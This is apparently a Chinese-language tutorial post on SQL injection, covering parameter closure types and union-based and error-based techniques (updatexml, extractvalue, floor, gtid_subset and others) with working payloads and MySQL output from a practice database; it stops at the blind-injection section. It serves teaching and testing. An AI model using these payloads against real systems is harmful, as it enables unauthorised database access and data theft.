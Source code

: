 ```yaml
---
title: "Sql注入"
date: 2022-01-24
description: SQL注入即是指web应用程序对用户输入数据的合法性没有判断或过滤不严，攻击者可以在web应用程序中...
---
```


## 什么是sql注入？

​	SQL注入即是指[web应用程序](https://baike.baidu.com/item/web应用程序/2498090?fromModule=lemma_inlink)对用户输入数据的合法性没有判断或过滤不严，攻击者可以在web应用程序中事先定义好的查询语句的结尾上添加额外的[SQL语句](https://baike.baidu.com/item/SQL语句/5714895?fromModule=lemma_inlink)，在管理员不知情的情况下实现非法操作，以此来实现欺骗[数据库服务器](https://baike.baidu.com/item/数据库服务器/613818?fromModule=lemma_inlink)执行非授权的任意查询，从而进一步得到相应的数据信息。



## 原理

​	SQL注入攻击是通过操作输入来修改SQL语句，用以达到执行代码对[WEB服务器](https://baike.baidu.com/item/WEB服务器/8390210?fromModule=lemma_inlink)进行攻击的方法。简单的说就是在post/getweb表单、输入域名或页面请求的查询字符串中插入SQL命令，最终使web服务器执行恶意命令的过程。



## 参数类型

下面例子，假设我们输入的值被赋予到`id`参数，不同的参数类型，**需要用不同的后缀闭合参数**

### 1、数字型

```sql
select * from users where id=1;
```

### 2、字符型

```sql
select * from users where id="1";
select * from users where id='1';
```

### 3、扭曲型

```sql
select * from users where id=('1');
select * from users where id=(('1'));
select * from users where id=("1");
select * from users where id=(("1"));
```



### 4、搜索型

```sql
mysql> select * from users where id like '%1%';
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
| 10 | admin2   | admin2   |
| 11 | admin3   | admin3   |
| 12 | dhakkan  | dumbo    |
| 14 | admin4   | admin4   |
+----+----------+----------+
5 rows in set (0.00 sec)
```



### 5、insert into型

> 这是我自己分的，对错自辩

```
INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('参数位置', '$IP', $uname);
```

闭合

```
' or '
```

利用只能报错型，例如

```
' or updatexml(1,concat(0x7e,database()),1) or '
```

**update型也一样**



### 6、order by型

```
$sql="SELECT * FROM users ORDER BY $id";
```

利用只能报错型，例如

```
updatexml(1,concat(0x7e,user()),1)
```



## 攻击类型

### 带内(In-Band)SQL注入

#### 1、基于联合查询的(Union-based)SQL注入

> 联合查询查到想要的信息。

```sql
select * from users where id="1" union select 1,2,3 %23;
```

union select 后面要跟前面select的**字段数对应**，否则报错。



##### 查看字段数方法

###### order by

```
select * from users where id="1" order by 字段数;
```

在报错与成功执行之间，成功执行的数就是字段数

```sql
mysql> select * from users where id="1" order by 4;
ERROR 1054 (42S22): Unknown column '4' in 'order clause'
mysql> select * from users where id="1" order by 3;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)
```

###### group by

同上

```
select * from users where id="1" group by 字段数;
```

```
mysql> select * from users where id="1" group by 4;
ERROR 1054 (42S22): Unknown column '4' in 'group statement'
mysql> select * from users where id="1" group by 3;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)
```



#### 2、基于报错的(Error-based)SQL注入

> 利用页面返回的报错信息，得到想要的信息。

##### gtid_subset报错

> 经过测试mysql-5.7.26版本可用，5.5.29版本不可用

```sql
mysql> select * from users where id="1" and gtid_subset(user(),1);
ERROR 1772 (HY000): Malformed GTID set specification 'root@localhost'.
```

##### floor报错

```sql
mysql> select * from users where id="1"  union select 1,2,count(*) from information_schema.tables group by concat(floor(rand(0)*2) ,0x7e,user());
ERROR 1062 (23000): Duplicate entry '1~root@localhost' for key '<group_key>'
```

##### updatexml报错

```
mysql> select * from users where id="" or updatexml(1,concat(0x7e,database()),1);
ERROR 1105 (HY000): XPATH syntax error: '~security'
```

##### extractvalue报错

```sql
mysql> select * from users where id=""  or extractvalue(1,concat(0x7e,database()));
ERROR 1105 (HY000): XPATH syntax error: '~security'
```

##### exp报错

> MySQL 5.5.49后的版本已经不再生效

```
exp(~(SELECT * from(select user())a))
```

##### geometric报错

```sql
mysql> select ST_LatFromGeoHash((select * from(select * from(select user())a)b));
ERROR 1411 (HY000): Incorrect geohash value: 'root@localhost' for function ST_LATFROMGEOHASH
```



#### 3、盲注

> 参数后面跟**逻辑运算符**和**条件判断**逐个逐个字母判断自己想要的信息

##### 3.1 基于布尔的(Boolean-based)SQL注入

> 根据页面返回的大小，判断条件正确